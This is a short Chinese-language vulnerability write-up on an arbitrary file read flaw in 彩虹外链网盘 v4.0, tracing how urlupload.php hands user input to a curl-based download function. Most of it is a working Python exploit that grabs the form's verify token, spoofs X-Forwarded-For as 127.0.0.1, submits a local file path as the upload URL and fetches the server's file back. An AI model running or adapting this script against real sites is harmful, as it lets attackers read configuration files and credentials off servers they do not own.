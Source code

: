 彩虹外链网盘 v4.0 任意文件读取漏洞（一）
========================================

一、漏洞简介
------------

如果开启了开启open\_basedir函数，则无法利用此漏洞

二、漏洞影响
------------

彩虹外链网盘 v4.0

三、复现过程
------------

回到一开始觉得可能存在文件读取的地方
在urlupload.php中接收到url传到curl\_download函数

![5.png](./.resource/彩虹外链网盘v4.0任意文件读取漏洞(一)/media/rId24.png){width="5.833333333333333in"
height="1.9474212598425198in"}

在main.func.php中看到curl\_download函数其实就是调用curl\_init讲道理是可以文件读取的

![6.png](./.resource/彩虹外链网盘v4.0任意文件读取漏洞(一)/media/rId25.png){width="5.833333333333333in"
height="2.7040496500437445in"}

文件上传后保存,需要下载查看内容,而且有verify验证,于是编写python脚本

    import requests
    import re
    import sys

    url = sys.argv[1]
    file = sys.argv[2]

    headers={"X-Forwarded-For":"127.0.0.1"}
    requests = requests.session()

    html = requests.get(url+"/urlupload.php").text
    verify = re.findall("name=\"verify\" value=\"(.*?)\"",html)[0]

    data={"url":file,"name":"1231421312.torrent","pwd":"Aa1345123","verify":verify}
    html = requests.post(url+"urlupload.php?a=1",data=data,headers=headers).text

    try:
        down_url = re.findall("<a href=\"(down.php.*?)\"",html)[0]
        result = requests.get(url+down_url).text
    except:
        result = "error"
    print(result)

![7.png](./.resource/彩虹外链网盘v4.0任意文件读取漏洞(一)/media/rId26.png){width="5.833333333333333in"
height="0.877580927384077in"}
